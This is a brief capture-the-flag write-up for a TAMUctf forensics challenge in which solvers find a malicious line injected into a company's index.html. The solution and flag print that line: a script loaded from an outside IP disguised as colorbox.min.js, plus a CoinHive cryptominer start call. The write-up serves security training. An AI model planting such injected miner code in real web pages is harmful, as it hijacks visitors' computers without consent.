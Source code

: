 # 0_intrusion

## Points
100

## Description
Welcome to Drive By Inc. We provide all sorts of logistical solutions for our customers. Over the past few years we moved to hosting a large portion of our business on a nice looking website. Recently our customers are complaining that the front page of our website is causing their computers to run extremely slowly. We hope that it is just because we added too much javascript but can you take a look for us just to make sure?

What is the full malicious line? (Including any HTML tags)

[index.html](https://tamuctf.com/files/c29425401b85b195cd1225505d728fc1/index.html)

## Solution
Look at the source code of `index.html`, there is a script for mining crypto-currency.
```html
<script src = http://10.187.195.95/js/colorbox.min.js></script>
<script>var color = new CoinHive.Anonymous("123456-asdfgh");color.start()</script>
```

## Flag
`<script src = http://10.187.195.95/js/colorbox.min.js></script><script>var color = new CoinHive.Anonymous("123456-asdfgh");color.start()</script></body>`